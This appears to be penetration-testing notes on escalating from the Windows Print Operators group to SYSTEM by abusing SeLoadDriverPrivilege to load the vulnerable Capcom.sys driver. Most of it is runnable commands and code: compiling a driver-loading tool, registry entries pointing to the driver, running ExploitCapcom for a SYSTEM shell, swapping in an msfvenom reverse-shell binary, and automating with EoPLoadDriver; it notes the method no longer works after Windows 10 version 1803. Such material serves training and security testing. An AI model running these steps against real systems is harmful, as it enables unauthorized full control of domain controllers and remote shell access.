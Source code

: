 # Windows Print Operators

* [Print Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#print-operators) is another highly privileged group, which grants its members the `SeLoadDriverPrivilege`, rights to manage, create, share, and delete printers connected to a Domain Controller, as well as the ability to log on locally to a Domain Controller and shut it down.

## Exploitation - With GUI

### Confirming Privileges

```cmd-session
whoami /priv
```

### Checking Privileges Again

* use admin cmd

```cmd-session
whoami /priv
```

```cmd-session
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
-----------------------------------------------------------
SeMachineAccountPrivilege     Add workstations to domain           Disabled
SeLoadDriverPrivilege         Load and unload device drivers       Disabled
SeShutdownPrivilege           Shut down the system			       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```

* It's well known that the driver `Capcom.sys` contains functionality to allow any user to execute shellcode with SYSTEM privileges.
* We can use our privileges to load this vulnerable driver and escalate privileges.
  * We can use [this](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) tool to load the driver.
    * The PoC enables the privilege as well as loads the driver for us.
* Download it locally and edit it, pasting over the includes below.

```c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```

* Next, from a Visual Studio 2019 Developer Command Prompt, compile it using **cl.exe**.

### Compile with cl.exe

```cmd-session
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```

### Add Reference to Driver

```cmd-session
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
```

```cmd-session
 reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

* The odd syntax `\??\` used to reference our malicious driver's ImagePath is an [NT Object Path](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-even/c1550f98-a1ce-426a-9991-7509e7c3787c). The Win32 API will parse and resolve this path to properly locate and load our malicious driver.

### Verify Driver is not Loaded

* Using Nirsoft's [DriverView.exe](http://www.nirsoft.net/utils/driverview.html), we can verify that the Capcom.sys driver is not loaded

```powershell-session
.\DriverView.exe /stext drivers.txt
```

```powershell-session
cat drivers.txt | Select-String -pattern Capcom
```

* no output should come

### Verify Privilege is Enabled

* Run the `EnableSeLoadDriverPrivilege.exe` binary.

```cmd-session
EnableSeLoadDriverPrivilege.exe
```

### Verify Capcom Driver is Listed

```powershell-session
.\DriverView.exe /stext drivers.txt
```

```powershell-session
cat drivers.txt | Select-String -pattern Capcom
```

### Use ExploitCapcom Tool to Escalate Privileges

* To exploit the Capcom.sys, we can use the [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) tool after compiling with it Visual Studio.

```powershell-session
.\ExploitCapcom.exe
```

* This launches a shell with SYSTEM privileges. !\[\[Pasted image 20240806113634.png]]

## Alternate Exploitation - No GUI

* &#x20;we will have to modify the `ExploitCapcom.cpp` code before compiling.
* Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

* The `CommandLine` string in this example would be changed to:

```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

* We would set up a listener based on the `msfvenom` payload we generated and hopefully receive a reverse shell connection back when executing `ExploitCapcom.exe`.
* If a reverse shell connection is blocked for some reason, we can try a bind shell or exec/add user payload.

### Automating the Steps

#### Automating with EopLoadDriver

* We can use a tool such as [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) to automate the process of enabling the privilege, creating the registry key, and executing `NTLoadDriver` to load the driver.
* To do this, we would run the following:

```cmd-session
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```

* We would then run `ExploitCapcom.exe` to pop a SYSTEM shell or run our custom binary.

## Clean-up

#### Removing Registry Key

```cmd-session
reg delete HKCU\System\CurrentControlSet\Capcom
```

**Note: Since Windows 10 Version 1803, the "SeLoadDriverPrivilege" is not exploitable, as it is no longer possible to include references to registry keys under "HKEY\_CURRENT\_USER".**

